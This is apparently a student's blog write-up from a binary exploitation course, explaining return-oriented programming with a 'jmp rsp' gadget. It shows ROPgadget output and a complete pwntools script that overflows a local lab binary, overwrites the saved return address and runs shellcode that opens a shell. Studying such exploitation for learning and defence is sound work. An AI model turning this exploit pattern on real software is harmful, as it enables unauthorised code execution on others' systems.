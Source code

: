 This is part IV of my notes while working through [TsarSec's Course](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses) on [binary-exploitation](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). You can find part II [here](https://trshpuppy.github.io/portfolio/writeups/binary-exploitation).
# Binary Exploitation Pt. 4: ROP Gadgets
In [part 3](https://trshpuppy.github.io/portfolio/writeups/nop-sleds) of my binary exploitation series we learned how to use a NOP sled to *increase the reliability* of our buffer overflow. However, the NOP sled technique is still *not 100% reliable* mostly due to the fact that, depending on where our entry point is on the stack, the vulnerable program's stack *may not be big enough for a large NOP sled*.

Fortunately, there's another technique we can use to ensure the CPU *jumps to the exact address of our shellcode*, and that's by high-jacking an instruction in the binary.
## Return Oriented Programming (ROP)
Return Oriented Programming is a binary exploit technique in which an attacker *uses machine instructions which are already present in memory* to exploit a program. This is usually *despite security defenses*.
### `jmp rsp` Instruction
The `jmp rsp`/ `call rsp` instruction is an instruction in the binary *which tells the CPU to go to the current address of the RSP*. These instructions are called 'jump gadgets' and *are always loaded into the same address* relative to the application's address space when it's loaded.

For our purposes, `jmp rsp` and/ or `call rsp` are ROP Gadgets and we're going to use them to *increase our exploit reliability.*
### Why is the Address Static?
We can bet on the fact that the address of `jmp rsp` will be the same between our machine and the target machine *as long as both machines are running the same OS*. Additionally, both machines would have to have defensive measures such as Address Space Layout Randomization ([ASLR](/computers/memory/ASLR.md)) turned off.

We're assuming these things are true. Without ASLR the OS *does not randomize the base addresses of the vulnerable program.* Instead, the OS loads the program into fixed, predictable addresses which are the same across machines.

There are additional considerations which go into this, including how the [compiler]() and [linker]() make decisions when the program is compiled, whether the output of compilation is deterministic, and whether or not the executables (on our machine and on the target machine) are identical or not. But, we're not going to worry about those right now.

Just assume that our target machine and our current machine are running the same OS and the layout of the address space of either *is not* randomized.
## Finding a ROP Gadget in the Binary
In order to find our ROP gadget, we can use a command line tool called `ROPgadget`. ROPgadget will list all the possible gadgets in our binary, and we can `grep` that list for our specific one (`jmp rsp`):
```bash
┌──(hakcypuppy㉿kali)-[~/tsar]
└─$ ROPgadget --binary ./vuln_1 | grep -i 'jmp rsp'
0x0000000000401150 : add bh, al ; cld ; jmp rsp
0x000000000040114e : add dword ptr [rax], eax ; add bh, al ; cld ; jmp rsp
0x0000000000401153 : cld ; jmp rsp
0x0000000000401154 : jmp rsp
```
In the output we can see that `ROPgadget` found 4 addresses in the binary where `jmp rsp` is mentioned. Let's use the address *that only lists `jmp rsp`* as an instruction(`0x0000000000401154`).
## Changing the Exploit Code
Remember when we did the NOP sled, our exploit ended up looking something like this on the stack:
![](/writeups/writeup-pics/Pasted%20image%2020231214121607.png)
![](/writeups/writeup-pics/Pasted%20image%2020231124142229.png)
Now that we have *the exact address* of our jump gadget, we can fix our exploit code so that our exploit will look like this:
![](/writeups/writeup-pics/Pasted%20image%2020231214143634.png)
![](/writeups/writeup-pics/Pasted%20image%2020231214123032.png)
**REMEMBER**: That our *stack pointer* (which is where `jmp rsp` will tell the CPU to go and start executing from) *will be pointing directly at our shellcode*! This is because the `overflow()` function *will return first* before our overflow actually starts hijacking the execution flow.

The *stack pointer always points to the top of the stack*. So, **BEFORE** the CPU reads the address that we've overwritten the saved RIP frame with, the `overflow()` frame will be popped off the stack. Then the CPU will go to the address of saved RIP (which we've over-written). The saved RIP will be popped off the stack, and the stack pointer moved to the next frame (the frame we've overwritten with our shellcode).

When our ROP gadget `jmp rsp` is executed by the CPU, our stack will look like this:
![](/writeups/writeup-pics/Pasted%20image%2020231214124449.png)
When the CPU pops the saved RIP off the stack, and reads the address saved in there (`jmp rsp`), the CPU will go to that address, read the `jmp rsp` instruction, and *the current value in the `%rsp` register will be where the stack pointer is currently pointing* (our shell code).
### Our Code
Finally, let's look at our new exploit code:
```python
#!/usr/bin/env python3
from pwn import *

# we point saved rip to a 'jmp rsp' gadget:
new_rip = 0x0000000000401154

# construct shell code:
# let pwntools know we're dealing w/ a 64-bit target
context.update(arch="amd64")
shellcode = asm(shellcraft.amd64.linux.sh())

# construct payload
payload = b"A" * overflow_offset_rip
payload += p64(new_rip)
payload += shellcode

# connect to the vulnerable program
p = process("./vuln_1")

# send payload
pause()
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n") 

p.interactive()
```
**GOTTEM!**

In the next part we'll learn more about ROP Gadgets and how to bypass some modern defenses of the stack!

Until then, Happy Holidays!

> [!Resources]
> - [Wikipedia: Return-oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming)
> - [TsarSec: Oral History of Binary Exploitation](https://taggartinstitute.org/courses/an-oral-history-of-binary-exploitation-defenses)
> - My notes (linked throughout) you can find [here](https://github.com/TrshPuppy/obsidian-notes)


